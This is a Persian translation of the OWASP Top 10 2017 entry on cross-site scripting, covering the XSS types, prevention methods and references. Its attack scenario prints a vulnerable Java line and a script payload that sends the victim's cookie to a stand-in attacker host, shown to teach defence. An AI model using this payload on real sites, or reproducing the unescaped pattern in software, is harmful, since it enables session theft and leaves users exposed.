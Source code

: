 # <div dir="rtl" align="right">A7:2017 Cross-Site Scripting (XSS) </div>

| Threat agents/Attack vectors | Security Weakness           | Impacts               |
| -- | -- | -- |
| Access Lvl : قابلیت بهره‌برداری: ۳ | شیوع: ۳ : قابل کشف بودن: ۳ | تکنیکی: ۲ : Business ? |
| <div dir="rtl" align="right">ابزارهای خودکار می‌توانند تمام 3 شکل ممکن XSS را شناسایی و اکسپلویت کنند و چارچوب های اکسپلویت در دسترس رایگانی وجود دارد. </div> | <div dir="rtl" align="right">XSS دومین مسئله مهم درOWASP Top 10 است و در حدود دو سوم از تمام برنامه های کاربردی یافت می‌شود.ابزارهای خودکار می‌توانند برخی از مشکلاتXSS  را به صورت خودکار، به ویژه در فن آوری های بالغ مانند PHP، J2EE / JSP و ASP.NET پیدا کنند.</div> | <div dir="rtl" align="right">تأثیر XSS برای انواع بازتابی و DOM XSS متوسط است و برای XSS ذخیره شده با اجرای کد از راه دور در مرورگر قربانی شدید است مانند سرقت اعتبارها، جلسات و یا ارائه بد افزارها به قربانیان.</div> |

## <div dir="rtl" align="right">آیا برنامه کاربردی آسیب پذیر است ؟</div>

<p dir="rtl" align="right">سه شکل از XSS وجود دارد که معمولا مرورگرهای کاربران را هدف قرار می‌دهند:</p>

<ul dir="rtl" align="right">
  <li>
    <strong>XSS  منعکس شده: </strong>
     برنامه یا API شامل ورودی کاربر غیرقابل اعتبار و غیرقانونی به عنوان بخشی از خروجی HTML است. یک حمله موفقیت آمیز می‌تواند به حمله کننده اجازه دهد HTML و JavaScript دلخواهی را در مرورگر قربانی اجرا کند. به طور معمول، کاربر نیاز به ارتباط با برخی از لینک های مخرب دارد که به یک صفحه کنترل شده توسط مهاجم اشاره می‌کند، مانند وب سایت های آگهی مخرب، تبلیغات و یا مشابه این ها.
  </li>
  <li>
    <strong>XSS ذخیره شده: </strong>
    برنامه کاربردی یا API ورودی کاربر تصفیه نشده را که بعدا توسط یک کاربر یا مدیر دیگر مشاهده می‌شود، ذخیره می‌کند. XSS ذخیره شده اغلب کاربر را با خطر بالایی از ریسک روبه رو می‌کند.
  </li>
  <li>
    <strong>DOM XSS: </strong>
    چارچوب های جاوا اسکریپت، برنامه های تک صفحه وAPI هایی که به طور پویا شامل داده های قابل کنترل مهاجم به یک صفحه می‌شوند، به DOM XSS آسیب پذیر هستند. در حالت ایده آل، برنامه اطلاعات قابل کنترل مهاجم را به API های جاوا اسکریپت نا امن ارسال نمی‌کند.
  </li>
</ul>

<p dir="rtl" align="right">حملات متداول XSS عبارتند از: سرقت نشست، گرفتن حساب، دور زدن MFA، جایگزینی یا حذف گره DOM (از قبیل پنل های ورود به سیستم تروجان)، حملات علیه مرورگر کاربر مانند دریافت نرم افزارهای مخرب، کلید ورود به سیستم و سایر حملات سمت مشتری.</p>

## <div dir="rtl" align="right">نحوه پیشگیری از حمله : </div>

<p dir="rtl" align="right">پیشگیری ازپیشگیری ازXSS  نیاز به جداسازی داده های غیر قابل اعتماد از محتوای فعال مرورگر دارد. این کار با انجام موارد زیر قابل دسترسی است:</p>

<ul dir="rtl" align="right">
  <li>با استفاده از چارچوب هایی که به صورت خودکار از وقوع XSS فرار می‌کنند به وسیله طراحی، همانند آخرین Ruby on Rails، React JS. محدودیت های حفاظت XSS  هر چارچوب را بیاموزید و به طور مناسب موارد استفاده را که پوشش داده نمی‌شوند، مدیریت کنید.
  </li>
  <li>فرار داده های درخواست HTTP نامعتبر براساس متن در خروجی HTML (بدنه، ویژگی، جاوا اسکریپت، CSS، یا URL ) آسیب پذیری های XSS ذخیره شده و منعکس شده را حل خواهد کرد.  
  </li>
  <li>
    با استفاده از رمزگذاری حساس به متن هنگام تغییر سند مرورگر در سمت مشتری بر علیه DOM XSS عمل می‌کند. هنگامی‌که از انجام این کار اجتناب نکنیم، تکنیک های فرار از حساسیت متن مشابه می‌توانند به API های مرورگر اعمال شوند، همانطور که در<a href="https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet">OWASP Cheat Sheet 'XSS Prevention'</a> توضیح داده شده است. </li>
  <li>
    فعال کردن یک سیاست امنیتی محتوا <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP">(CSP)</a>  یک کنترل دفاع در عمق در برابر XSS  است. این مؤثر است اگر هیچ آسیب پذیری دیگری وجود نداشته باشد که اجازه می‌دهد کدهای مخرب را از طریق فایل محلی شامل شود (مثلا مسیرهای رونویسی شده یا کتابخانه های آسیب پذیر از شبکه های تحویل مجاز محتوا).
  </li>
</ul>

## <div dir="rtl" align="right">نمونه سناریو حمله</div>

<p dir="rtl" align="right"><strong>سناریو 1: </strong>برنامه بدون تایید یا escape، از داده های غیر قابل اعتماد در ساخت قطعه HTML زیر استفاده می‌کند:</p>

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
<p dir="rtl" align="right">مهاجم پارامتر CC را در مرورگر خود به صورت زیر تغییر می‌دهد :</p>

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

<p dir="rtl" align="right">این حمله باعث می‌شود شناسه نشست قربانی به وب سایت مهاجم ارسال شده و به مهاجم اجازه سرقت نشست فعلی کاربر را می‌دهد.</p>

<p dir="rtl" align="right"><strong>نکته : </strong>مهاجمان می‌توانند ازXSS برای جلوگیری از هرگونه دفاع خودکار CSRF که برنامه کاربردی به کار می‌برد، استفاده کنند.</p>

## <div dir="rtl" align="right">منابع</div>

### <div dir="rtl" align="right">OWASP</div>

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### <div dir="rtl" align="right">خارجی</div>

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
